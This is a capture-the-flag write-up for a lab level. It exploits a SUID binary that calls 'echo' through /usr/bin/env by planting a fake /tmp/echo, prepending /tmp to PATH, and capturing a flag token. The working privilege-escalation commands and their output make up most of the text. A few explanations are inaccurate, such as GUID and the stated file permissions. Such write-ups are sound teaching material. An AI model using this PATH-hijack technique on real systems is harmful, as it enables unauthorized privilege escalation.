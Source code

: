 # LEVEL 03
In our home directory, we have an executable with SUID (**S**et owner **U**ser **ID** up on execution) and GUID (**G**lobally **U**nique **Id**entifier) (the first s is for SETUID, and the second s is for SETGID, this means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`):
```
>$ ls -la
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
>$ ./level03
Exploit me

>$ cat level03
[..]
...O����[�/usr/bin/env echo Exploit me;0p�...
[..]
```
It looks like ./level03 is calling ``echo`` from ``usr/bin/env``, calling binary that's defined by the environment.
lets play around by substitute our own `echo` binary, which calls `getflag` with `flag03` user permissions.
let's see where the getflag is. 
```
>$ which getflag
/bin/getflag
>$ /bin/getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
Checking available folders where we can write and execute scripts with:
```
>$ ls -l /
[..]
d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp
[..]
```
we can write and execute programs in the `/tmp` folder
let's see permissions of echo program:
```
>$ ls -l /tmp/echo
-rw-rw-r-- 1 level03 level03 13 Jun  7 15:49 /tmp/echo
```
these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r`(read) and `x`(execute), 
then `getflag` is executed with the `uid` of `flag03` (li ma3ndnach).
Then, we instruct bash to look for the executable in `/tmp` first by adding *`/tmp`* at the beginning of the **$PATH** environment variable.
after that we execute the executable `./level03` :

```
>$ echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

##### OR
we can create a symbolic link of `getflag` in `/tmp` as `/tmp/echo`:
```
>$ ln -s /bin/getflag /tmp/echo
>$ env PATH="/tmp:$PATH" ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
#### Vulnerability:
Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command

#### Documentations:
1. https://www.commentcamarche.net/faq/3585-bash-la-variable-d-environnement-path
1. https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
1. https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
1. https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my
1. https://stackoverflow.com/questions/1641477/how-to-set-environment-variable-for-everyone-under-my-linux-system
1. https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
1. https://linux.goffinet.org/administration/securite-locale/permissions-linux/
1. https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
1. https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script